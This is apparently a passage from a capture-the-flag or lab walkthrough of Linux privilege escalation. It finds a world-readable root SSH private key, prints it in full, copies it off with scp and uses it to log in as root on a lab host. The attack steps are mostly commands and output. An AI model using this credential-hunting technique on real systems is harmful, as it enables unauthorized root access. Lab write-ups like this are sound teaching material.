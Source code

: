 ```bash
drwxr-xr-x 11 root root  4096 May 13  2017 usr
drwxr-xr-x 14 root root  4096 May 13  2017 var
lrwxrwxrwx  1 root root    27 May 12  2017 vmlinuz -> boot/vmlinuz-2.6.32-5-amd64
user@debian:~$ ls -l /.ssh/
total 4
-rw-r--r-- 1 root root 1679 Aug 25  2019 root_key
user@debian:~$ cat /.ssh/root_key 
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3IIf6Wczcdm38MZ9+QADSYq9FfKfwj0mJaUteyJHWHZ3/GNm
gLTH3Fov2Ss8QuGfvvD4CQ1f4N0PqnaJ2WJrKSP8QyxJ7YtRTk0JoTSGWTeUpExl
p4oSmTxYnO0LDcsezwNhBZn0kljtGu9p+dmmKbk40W4SWlTvU1LcEHRr6RgWMgQo
OHhxUFddFtYrknS4GiL5TJH6bt57xoIECnRc/8suZyWzgRzbo+TvDewK3ZhBN7HD
eV9G5JrjnVrDqSjhysUANmUTjUCTSsofUwlum+pU/dl9YCkXJRp7Hgy/QkFKpFET
Z36Z0g1JtQkwWxUD/iFj+iapkLuMaVT5dCq9kQIDAQABAoIBAQDDWdSDppYA6uz2
NiMsEULYSD0z0HqQTjQZbbhZOgkS6gFqa3VH2OCm6o8xSghdCB3Jvxk+i8bBI5bZ
YaLGH1boX6UArZ/g/mfNgpphYnMTXxYkaDo2ry/C6Z9nhukgEy78HvY5TCdL79Q+
5JNyccuvcxRPFcDUniJYIzQqr7laCgNU2R1lL87Qai6B6gJpyB9cP68rA02244el
WUXcZTk68p9dk2Q3tk3r/oYHf2LTkgPShXBEwP1VkF/2FFPvwi1JCCMUGS27avN7
VDFru8hDPCCmE3j4N9Sw6X/sSDR9ESg4+iNTsD2ziwGDYnizzY2e1+75zLyYZ4N7
6JoPCYFxAoGBAPi0ALpmNz17iFClfIqDrunUy8JT4aFxl0kQ5y9rKeFwNu50nTIW
1X+343539fKIcuPB0JY9ZkO9d4tp8M1Slebv/p4ITdKf43yTjClbd/FpyG2QNy3K
824ihKlQVDC9eYezWWs2pqZk/AqO2IHSlzL4v0T0GyzOsKJH6NGTvYhrAoGBAOL6
Wg07OXE08XsLJE+ujVPH4DQMqRz/G1vwztPkSmeqZ8/qsLW2bINLhndZdd1FaPzc
U7LXiuDNcl5u+Pihbv73rPNZOsixkklb5t3Jg1OcvvYcL6hMRwLL4iqG8YDBmlK1
Rg1CjY1csnqTOMJUVEHy0ofroEMLf/0uVRP3VsDzAoGBAIKFJSSt5Cu2GxIH51Zi
SXeaH906XF132aeU4V83ZGFVnN6EAMN6zE0c2p1So5bHGVSCMM/IJVVDp+tYi/GV
d+oc5YlWXlE9bAvC+3nw8P+XPoKRfwPfUOXp46lf6O8zYQZgj3r+0XLd6JA561Im
jQdJGEg9u81GI9jm2D60xHFFAoGAPFatRcMuvAeFAl6t4njWnSUPVwbelhTDIyfa
871GglRskHslSskaA7U6I9QmXxIqnL29ild+VdCHzM7XZNEVfrY8xdw8okmCR/ok
X2VIghuzMB3CFY1hez7T+tYwsTfGXKJP4wqEMsYntCoa9p4QYA+7I+LhkbEm7xk4
CLzB1T0CgYB2Ijb2DpcWlxjX08JRVi8+R7T2Fhh4L5FuykcDeZm1OvYeCML32EfN
Whp/Mr5B5GDmMHBRtKaiLS8/NRAokiibsCmMzQegmfipo+35DNTW66DDq47RFgR4
LnM9yXzn+CbIJGeJk5XUFQuLSv0f6uiaWNi7t9UNyayRmwejI6phSw==
-----END RSA PRIVATE KEY-----
```

**On the workstation**

```bash
$ scp -r user@10.10.118.70:/.ssh/root_key .
$ chmod 600 root_key 
$ ssh -i root_key root@10.10.118.70
load pubkey "root_key": invalid format
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 25 14:02:49 2019 from 192.168.1.2
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
```
